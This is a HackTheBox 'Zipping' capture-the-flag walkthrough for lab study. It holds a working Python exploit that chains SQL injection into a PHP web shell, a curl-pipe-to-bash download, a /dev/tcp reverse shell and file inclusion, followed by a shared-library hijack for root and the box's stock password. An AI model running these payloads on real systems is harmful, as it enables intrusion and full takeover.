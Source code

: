 # 🚩 Zipping HackTheBox Walkthrough

<figure><img src=".gitbook/assets/Zipping.png" alt=""><figcaption><p>ZIPPING - HACK THE BOX</p></figcaption></figure>



Add the given Machine IP to Host file

```
sudo nano /etc/hosts
```

Now you will be able to Open Webpage in Web Browser.

#### NMAP

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP6mSkoF2+wARZhzEmi4RDFkpQx3gdzfggbgeI5qtcIseo7h1mcxH8UCPmw8Gx9+JsOjcNPBpHtp2deNZBzgKcA=
|   256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOXXd7dM7wgVC+lrF0+ZIxKZlKdFhG2Caa9Uft/kLXDa
80/tcp open  http    syn-ack Apache httpd 2.4.54 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

#### INDEX PAGE&#x20;

<figure><img src=".gitbook/assets/Screenshot 2023-12-16 at 09-44-02 Zipping Watch store.png" alt=""><figcaption><p>http://10.10.11.229/</p></figcaption></figure>

#### GETTING SHELL  ACESS

#### POC

```
import requests
import sys
import subprocess
import random

if len(sys.argv) < 2:
    print("Usage: python3 HTB_Zipping_poc.py <listener ip> <listener port>")
    sys.exit(1)

fnb = random.randint(10, 10000)
url = "http://zipping.htb/"

session = requests.Session()

print("[+] Please run nc in other terminal: rlwrap -cAr nc -nvlp " + f"{sys.argv[2]}")

print("[+] Write php shell /var/lib/mysql/rvsl" + str(fnb) + ".php")

with open('revshell.sh', 'w') as f:
        f.write("#!/bin/bash\n")
        f.write(f"bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1")
proc = subprocess.Popen(["python3", "-m", "http.server", "8000"])
phpshell = session.get(url + f"shop/index.php?page=product&id=%0A'%3bselect+'<%3fphp+system(\"curl+http%3a//{sys.argv[1]}:8000/revshell.sh|bash\")%3b%3f>'+into+outfile+'/var/lib/mysql/rvsl{fnb}.php'+%231")

print("[+] Get Reverse Shell")

phpshell = session.get(url + f"shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2frvsl{fnb}")

proc.terminate()
```

save this python script with **.py** format and run the following line of codes.

```
python3 script.py <your_vpn_ip> 4444 

& Run NETCAT in another Tab
```

```
┌──(Batman㉿GC)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.110] from (UNKNOWN) [10.10.11.229] 34126
bash: cannot set terminal process group (1128): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$   
```

Run TTY Spawn Shell.

#### Privilage Escalation

```
rektsu@zipping:/$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

{% embed url="https://tbhaxor.com/exploiting-shared-library-misconfigurations/" %}

We can see a **binary** that requests a **password** luckily the password is given **"St0ckM4nager".**

Now we use strace and we find that the program calls library that does not exist: **/home/rektsu/.config/libcounter.so**

```
Open a text editor and save the file in /tmp/libcounter.c

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
 system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Type the following line of code.

```
gcc -shared -o /home/rekstu/.config/libcounter.so -fPIC /tmp/libcounter.c
```

Now run,

```
rektsu@zipping:/home/rektsu$ sudo /usr/bin/stock
Enter the password: St0ckM4nager
root@zipping:/home/rektsu# whoami
root
```

WE ARE **ROOT** !!!!!!
